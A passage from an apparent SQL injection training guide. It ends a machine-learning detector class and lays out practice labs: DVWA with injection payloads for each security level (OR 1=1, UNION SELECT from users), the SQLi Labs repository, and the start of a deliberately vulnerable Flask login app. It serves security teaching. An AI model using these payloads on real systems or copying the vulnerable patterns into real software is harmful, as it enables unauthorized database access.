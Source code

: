 ```python
        X = self.vectorizer.transform([query])
        probability = self.classifier.predict_proba(X)[0][1]
        return probability > 0.7  # Threshold for detection

# Usage
detector = SQLInjectionDetector()
# detector.train(training_queries, training_labels)
# is_malicious = detector.predict("1' OR 1=1--")
```

---

## Practical Exercises and Labs

### Lab 1: DVWA SQL Injection
```bash
# Setup DVWA (Damn Vulnerable Web Application)
docker run --rm -it -p 80:80 vulnerables/web-dvwa

# Navigate to SQL Injection section
# Try different security levels (Low, Medium, High, Impossible)

# Low level payloads
1' OR '1'='1
' UNION SELECT first_name, last_name FROM users--

# Medium level (basic filtering)
1' OR '1'='1' #
1' UNION SELECT first_name, last_name FROM users #

# High level (more advanced evasion required)
1' OR '1'='1' LIMIT 1 #
```

### Lab 2: SQLi Labs
```bash
# Setup SQLi Labs
git clone https://github.com/Audi-1/sqli-labs.git
cd sqli-labs
# Import database and configure web server

# Practice different injection types
# Less-1: Error-based injection
# Less-2: Numeric injection
# Less-3: String injection with single quotes
# Less-4: Double quote injection
# Less-5: Blind boolean-based
```

### Lab 3: Custom Vulnerable Application
```python
# Create simple vulnerable Flask app for testing
from flask import Flask, request, render_template_string
import sqlite3

app = Flask(__name__)

@app.route('/')
def index():
    return '''
    <form method="POST" action="/login">
        Username: <input type="text" name="username"><br>
        Password: <input type="text" name="password"><br>
```